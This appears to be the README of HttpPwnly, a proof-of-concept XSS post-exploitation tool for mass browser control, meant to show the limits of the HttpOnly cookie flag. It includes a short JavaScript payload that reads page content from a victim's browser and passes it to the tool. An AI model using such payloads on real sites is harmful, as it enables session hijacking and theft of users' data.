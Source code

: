 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
      sendOutput(task.id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```
